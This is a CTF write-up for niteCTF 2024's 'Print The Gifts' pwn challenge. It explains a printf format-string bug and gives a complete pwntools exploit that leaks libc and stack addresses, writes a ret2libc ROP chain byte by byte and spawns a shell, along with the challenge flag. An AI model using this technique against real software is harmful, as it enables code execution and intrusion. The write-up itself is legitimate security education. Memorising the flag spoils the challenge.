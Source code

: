 https://ctftime.org/event/2461

# Print The Gifts (pwn)

Santa has come with a lot of gifts, do not exploit his kindess unless you want to end up on the naughty list...

ncat --ssl print-the-gifts.chals.nitectf2024.live 1337

## Analysis

`main` @ `0x1199`
- Uses `fgets` to read attacker controlled input
- Passes attacked controlled input as the format string to `printf`
- Allows us to loop to the start of the function if we wish

## Solution

Note: In order to get the same behaviour as the remote I used `pwninit`, which can be found here https://github.com/io12/pwninit, to patch `chal` to use the provided `ld-linux-x86-64.so.2`.

1) Leak a pointer to libc which is offset by `0x27305` bytes to compute the libc base
    - The offset is found using the `xinfo` command in `pwndbg` on the pointer in the patched binary.
2) Leak a pointer to the stack which is offset by `0x21a8` bytes from the return address of `vuln`
    - The offset is found using the `xinfo` command in `pwndbg` on the pointer in the patched binary and comparing it to the return address with the `retaddr` command.
3) Write a ret2libc rop payload one byte at a time
    - It may be possible to do this in fewer larger writes. However seeing as a simple byte write to sequentially increasing addresses is the easiest to construct format strings for and that we are not limited by the number of writes we can perform I decided to keep it simple and write the payload a byte at a time.

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./chall_patched", checksec=False)
context.binary = elf

libc = ELF("./libc.so.6", checksec=False)

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("print-the-gifts.chals.nitectf2024.live", 1337, ssl=True)

p.sendlineafter(b">", b"%43$p")
p.readuntil(b"Santa brought you a ")
leak = int(p.readline().decode(), 16)
libc.address = leak - 0x27305
log.success(f"libc: {hex(libc.address)}")
p.sendlineafter(b"y or n:\n", b"y")

p.sendlineafter(b">", b"%1$p")
p.readuntil(b"Santa brought you a ")
leak = int(p.readline().decode(), 16)
retaddr = leak + 0x21a8
log.success(f"ret: {hex(retaddr)}")

rop = ROP(libc)
rop.rdi = p64(next(libc.search(b"/bin/sh\x00")))
rop.raw(p64(rop.find_gadget(['ret']).address)) # stack aligning ret
rop.call("system")
payload = rop.chain()

for i in range(len(payload)):
    p.sendlineafter(b"y or n:\n", b"y")
    p.sendlineafter(b">", fmtstr_payload(8, {retaddr + i: p8(payload[i])}))
    
p.sendlineafter(b"y or n:\n", b"n")

p.interactive() # nite{0nLy_n4ugHty_k1d5_Use_%n}
```

## Flag
`nite{0nLy_n4ugHty_k1d5_Use_%n}`

smiley 2024/12/14
